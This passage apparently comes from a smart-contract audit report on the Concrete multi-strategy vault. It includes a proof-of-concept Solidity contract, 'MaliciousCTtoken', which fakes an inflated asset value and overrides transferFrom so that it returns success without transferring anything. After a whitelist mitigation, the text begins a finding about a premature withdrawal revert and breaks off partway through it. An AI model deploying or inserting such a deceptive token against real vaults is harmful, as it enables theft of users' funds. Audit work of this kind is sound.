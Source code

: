```diff
+contract MaliciousCTtoken is ERC20 {
+    address public _asset;
+    
+    constructor(address asset_) ERC20("Malicious ct Token", "MTKN") {
+        _asset = asset_;
+        _mint(msg.sender, 1000000 * 10**18); // Mint some tokens to attacker
+    }
+    
+    // Fake convertToAssets function that returns inflated value
+    function convertToAssets(uint256) public pure returns (uint256) {
+        // Return massively inflated value
+        // return shares * 1000000;
+        return 900 ether;
+    }
+
+    function asset() public view returns (address) {
+        return _asset;
+    }
+
+    // Override transfer to always return true but not actually transfer
+    function transferFrom(address, address, uint256) public pure override returns (bool) {
+        // Do nothing but return success
+        return true;
+    }
+}
 // mint some reward tokens to the treasury
 // reward.mint(treasury, 1_000_000 * 10**ASSET_DECIMALS);
```

## Mitigation 
Maintain a whitelist of allowed `ctAssetToken_` addresses and ensure that the user-supplied address belongs to it.

[Back to Top](#summaryTable)
---

### <a id="h-06"></a>[H-06]
## **`_withdrawStrategyFunds()` reverts prematurely even if withdrawable amount in vault is sufficient**
#### https://code4rena.com/evaluate/2024-11-concrete/submissions/S-2024-11-concrete/blob/main/src/vault/ConcreteMultiStrategyVault.sol#L461-L463
<br>

## Description
The following logic in [_withdrawStrategyFunds()](https://code4rena.com/evaluate/2024-11-concrete/submissions/S-2024-11-concrete/blob/main/src/vault/ConcreteMultiStrategyVault.sol#L461-L463) causes premature revert without checking if there are enough funds across all strategies to cover the requested `amount_`:
```js
  File: src/vault/ConcreteMultiStrategyVault.sol

   444:              function _withdrawStrategyFunds(uint256 amount_, address receiver_) private {
   445:                  IERC20 asset_ = IERC20(asset());
   446:                  //Not in a loop
   447:                  //slither-disable-next-line calls-loop
   448:                  uint256 float = asset_.balanceOf(address(this));
   449:                  // If there is enough in the vault, send the full amount
   450:                  if (amount_ <= float) {
   451:                      asset_.safeTransfer(receiver_, amount_);
```